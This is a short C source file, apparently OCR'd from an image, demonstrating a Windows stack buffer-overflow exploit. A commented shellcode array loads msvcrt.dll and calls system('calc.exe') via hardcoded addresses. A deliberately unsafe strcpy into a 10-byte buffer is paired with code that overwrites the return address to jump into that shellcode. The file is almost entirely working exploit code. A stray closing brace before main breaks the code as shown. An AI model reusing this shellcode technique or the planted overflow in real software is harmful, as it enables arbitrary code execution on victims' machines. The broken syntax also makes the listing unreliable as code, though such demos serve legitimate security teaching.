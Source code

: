 ```
#include "stdafx.h"
#include <stdio.h>
#include <string.h>
#include <windows.h>


unsigned char shellcode[] =
//"\x8B\xE5" //MOV ESP, EBP  
"\x55" //PUSH EBP
"\x8B\xEC" //mov ebp, esp
"\x33\xFF" //xor edi,edi
"\x57"//push edi
"\x83\xEC\x08" //sub esp,08h
"\xC6\x45\xF4\x6D"//mov byte ptr [ebp-0ch],'m'
"\xC6\x45\xF5\x73"//'s'
"\xC6\x45\xF6\x76"//'v'
"\xC6\x45\xF7\x63"//'c'
"\xC6\x45\xF8\x72"//'r'
"\xC6\x45\xF9\x74"//'t'
"\xC6\x45\xFA\x2E"//'.'
"\xC6\x45\xFB\x64"//'d'
"\xC6\x45\xFC\x6C"//'l'
"\xC6\x45\xFD\x6C"//'l'
"\x8D\x45\xF4" //lea eax, [ebp-0ch]
"\x50" //push eax
"\xB8\x7B\x1D\x80\x7C" //mov eax, 7C801D7Bh address of loadlibrary
"\xFF\xD0" //call eax
"\x33\xDB" //xor ebx, ebx
"\x53" //push ebx
"\x68\x2E\x65\x78\x65" //push 'exe.'
"\x68\x63\x61\x6C\x63" //push 'clac'
"\x8B\xC4" //mov eax, esp
"\x50" //push eax
"\xB8\xC7\x93\xBF\x77" //mov eax, 77BF93C7h address of system
"\xFF\xD0" //call eax
"\xB8\xFA\xCA\x81\x7C" //mov eax, 7c81cafah address of exitprocess
"\xFF\xD0";//call eax

void func1(char* s)
{
    char buf[10];
    strcpy(buf, s);  //调用strcpy
}

}
int main(int argc, char* argv[])
{
    char badCode[] = "vvvvvvvvvvvvvvvvvvvvvvvv";   
    DWORD* pEIP = (DWORD*)&badCode[16];     //指针指到16字节处（12字节的变量区域加老ebp）
	*pEIP = (DWORD)shellcode;
    func1(badCode);
    return 0;
}
```  
